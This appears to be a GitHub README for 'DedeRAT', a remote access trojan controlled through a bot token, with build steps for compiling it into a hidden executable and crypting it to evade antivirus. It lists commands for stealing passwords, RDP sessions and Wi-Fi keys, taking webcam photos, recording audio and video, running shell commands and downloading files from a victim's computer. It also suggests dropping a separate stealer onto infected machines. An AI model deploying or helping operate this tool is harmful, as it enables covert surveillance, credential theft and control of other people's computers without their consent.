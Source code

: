 # DedeRAT

This RAT made inspired by Dede Korkut from Turkish mitology. My first RAT project. I hope you will like this.

# Installation

- Install it as git or zip
- Open 'config.py' in a text editor.
- Change "serverid" and "bottoken" according to your values
- Open the "NMSFUD" folder and open "NMSFUD V3.5" file. Select Python file and crypt the your virus.
- Turn this to exe using pyinstaller (You can use icons in util/iconpack)

## Command Examples

```pyinstaller --onefile --noconsole -i util/iconspack/iconname.ico -n virus config.py```

```pyinstaller --onefile --noconsole -n virus config.py```

```pyinstaller --onefile --noconsole config.py```

# Commands

cd - Change directory. Usage: cd C:\full\path\of\directory

pwd - See the current directory.

delet - Remove a file.

download - Download a file from the victim's computer. Usage: 

download C:\full\path\of\directory

msgbox - Show a message box. Usage: msgbox -msg Message -ttl Title

record - Record for a specified time. Usage: record 10 (where 10 is the number of seconds)

setbg - Upload a photo to change the background.

shell - Execute CMD commands. Usage: shell dir

ss - Take a screenshot.

stealrdp - Steal RDP session information.

sysinfo - Read system information.

upload - Upload a file to the victim. Usage: upload C:\full\path\of\your\wish (attach a file)

capsrandtroll - Randomize text case to troll. Usage: capsrandtroll 10 (where 10 is the number of seconds)

visitsite - Visit a specified site.

shutdown - Shutdown the victim's computer.

tasklist - List open programs on the victim's PC.

taskkill - Close a program or game on the victim's PC.

write - Write a sentence on the victim's PC.

moveto - Move the victim's mouse. Usage: moveto 100, 300 
(where 100 and 300 are x and y coordinates)

webcamlist - List available webcams.

cameraphoto - Take a photo with the webcam.

execute - Execute a file. Usage: execute <path>

recordvideo - Record a video for a specified time. Usage: recordvideo 10.0 (where 10.0 is the duration in seconds as a float)

wifipasswords - List saved Wi-Fi networks and passwords.

grab - Grab the victim's passwords.

### NOTE :

You need to run command like "dede ss si:12345" (si:<session-id>)

# Suggestion

You can upload ```dede upload (upload a stealer.exe) si:<session-id>``` a stealer and run ```dede execute path/of/stealer.exe si:<session-id>``` the virus because my grabber is so bad :(

# Thanks To :

- LydexCoding
- NMS
- Basfroxy
- LyrexEx
